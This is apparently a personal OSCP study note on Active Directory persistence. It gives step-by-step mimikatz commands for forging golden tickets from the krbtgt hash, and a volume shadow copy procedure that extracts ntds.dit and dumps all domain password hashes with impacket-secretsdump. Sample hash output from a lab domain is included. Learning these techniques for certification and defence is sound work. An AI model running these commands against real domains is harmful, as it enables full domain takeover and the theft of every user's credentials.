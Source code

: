 ```yaml
---
aliases:
  - Active Directory Persistence
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - active_directory
  - ad
  - adds
  - Persistence
author: Mehdi N Tehrani
creat_date: 2024-01-08
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# Golden Ticket
#golden_ticket 
Forge a ticket for any domain user to obtain `Domain Admins` and `Enterprise Admins` rights.

If we are able to get our hands on the _krbtgt_ password hash, we could create our own self-made custom TGTs, also known as _golden tickets_. Golden Tickets give us permission to access the _entire_ domain's resources. 

This provides a neat way of keeping persistence in an Active Directory environment, but the best advantage is that the _krbtgt_ account **password is not automatically changed**. In fact, this password is only changed when the domain functional level is upgraded from a pre-2008 Windows server, but not from a newer version. Because of this, it is not uncommon to find very old _krbtgt_ password hashes.

## Requirement
- Domain admin access: to get the krbtgt ntlm from domain controller
- local admin access: to a device to run mimikatz to forge the golden ticket
## Process
1. With a user with admin access to the domain controller e.g. user in *Domain Admins* group, access the domain controller and obtain NTLM hash of `krbtgt` account:
On Domain Controller
#lsadump #lsadump_lsa
```mimikatz
lsadump::lsa /patch
```

2. With the user we want to elevate privileges for move to a device we have local admin access to and generate a golden ticket for **any user** even unprivileged users.
This step is actually performing a sort of **overpass the hash** #overpass_the_hash given we're converting krbtgt NTLM hash into a kerberos ticket.

#kerberos #kerberos_golden #sid #krbtgt #kerberos_purge #purge
```mimikatz
kerberos::purge

kerberos::golden /user:<user> /domain:<domain> /sid:<domain_sid> /krbtgt:<ktbtgt_ntlm_hash> /ptt

misc::cmd
```
3. previous step gives us a `cmd` session which has the following tickets:
```
#0>     Client: jen @ corp.com
        Server: krbtgt/corp.com @ corp.com
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 1/7/2024 23:42:06 (local)
        End Time:   1/4/2034 23:42:06 (local)
        Renew Time: 1/4/2034 23:42:06 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```
4. we can now use PsExec to access domain controller. Make sure to use the domain name and not the IP address. With domain name authentication is handled by Kerberos, but with IP address the authentication would be using NTLM hash.

# Shadow Copy
#shadowcopy #shadow_copy #vss #volume_shadow_service #ntds_dit #ntds
[vshadow - Microsoft article](https://learn.microsoft.com/en-us/windows/win32/vss/vshadow-tool-and-sample)

> Note that DCSync is a less conspicuous technique. Shadow Copy leaves much larger track behind.

Also known as Volume Shadow Service (VSS) is a Microsoft backup technology that allows creation of snapshots of files or entire volumes. `vshadow.exe` is part of Windows SDK. 

Once we've obtained a copy of `ntds.dit` database, we can extract every user credential offline on our local Kali machine.

## Requirement 
Domain Admin: to run shadow copy against the domain controller

## Process
**Use CMD. THIS DIDN'T WORK WITH POWERSHELL.**
1. Get a copy of the whole volume into a folder
```cmd
vshadow.exe -nw -p <destination_folder>
```
Example
```cmd
vshadow.exe -nw -p C:\temp
```

2. Copy `ntds.dit` file out
```cmd
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2 <destination_path>
```
Example
```cmd
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\temp\ntds.dit.bak
```

3. Get a copy of registry hive `HKLM\System`
```cmd
reg.exe save HKLM\System <destination_path>
```
example:
```cmd
reg.exe save HKLM\System c:\temp\system.bak
```

4. transfer file to Kali and use *impacket-secretsdump* to get NTLM hash of all domain users:
```sh
impacket-secretsdump -ntds <ntds.dit> -system <system_registry> LOCAL
```

OUTPUT:
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xbbe6040ef887565e9adb216561dc0620
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 98d2b28135d3e0d113c4fa9d965ac533
[*] Reading and decrypting hashes from ntds.dit.bak
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC1$:1000:aad3b435b51404eeaad3b435b51404ee:eda4af1186051537c77fa4f53ce2fe1a:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1693c6cefafffc7af11ef34d1c788f47:::
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
stephanie:1104:aad3b435b51404eeaad3b435b51404ee:d2b35e8ac9d8f4ad5200acc4e0fd44fa:::
[...]
```